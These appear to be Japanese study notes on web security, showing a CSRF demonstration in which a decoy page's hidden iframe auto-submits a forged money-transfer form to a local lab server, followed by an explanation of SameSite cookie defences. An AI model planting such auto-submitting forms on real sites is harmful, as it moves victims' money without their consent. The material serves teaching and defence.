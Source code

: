   ```
  <!DOCTYPE html>
    <html lang='en'>
        <head>
            <meta charset="utf-8">
            <Title>My cool site</Title>
        </head>
        <body>
            <h1>Cool cat site</h1>
            <img src='cat.gif' />
            <iframe src="attacker-iframe.html" style='display: none'/>
            <!-- 元のウェブサイトから送金コードをコピーして、余計な文字を消す
                actionにlocalhost:4000を追記する
                style='display: none'属性を追記する
                ここから先をiframeで別のサイトに飛ばす 
            <form method='POST' action='http://localhost:4000/transfer'　style='display: none'>
                <input name='amount' value='100' />
                <input name='to' value='alice' />
                <input type='submit' value='Send' />
            </form>
            <script>
                document.forms[0].submit()
            </script>
            -->
        </body>
    </html>
  ```
  * attacker-iframe.html
    * 余計なものを除いて、自動的にsubmitするように作り替える。
  ```
  <form method='POST' action='http://localhost:4000/transfer' style='display: none'>
    <input name='amount' value='100' />
    <input name='to' value='alice' />
    <input type='submit' value='Send' />
  </form>
  <script>
      document.forms[0].submit()
  </script>
  ```

# CSRF 対策
  * 別のサイトから発生したリクエストに対して、"ambient authority"を取り除くことができるのか？

# SameSite Cookies
* SameSite 属性は、他のWebサイトから発生するCookieの動作を規定するものである。
* 属性の種類
  * SameSite=None
    * default Cookieの送信に制限なし
  * SameSite=Lax
    * 他のドメインへのリクエストに伴うCookieをセットしない。
    * top-level navigationで、且つ GET メソッドであれば、他のドメインへのリクエストであってもクッキーをセットする。
      * 画像など、そのWebサイトに属するものでGETならばセットできる。
      * POSTメソッドを使ったフォームやimgタグはCookieをセットしない。
      * 先の例の場合、ブラウザに表示されるURLが遷移するtop-level navigation は行われない。そのためSameSite=Laxの場合は、攻撃が実行できなくなる。
  * Google Chrome では バージョン 80 以降、SameSite 属性が宣言されていない Cookie は SameSite=Lax として扱われるようになった。
  * SameSite=Strict 
    * Cookieを設定したWebサイトだけがCookieを設定できる。
    * 最も厳しい設定である。
  * `Set-Cookie: key=value; Secure; HttpOnly; Path=/; SameSite=Lax` のように設定する。
# Cookieの有効期間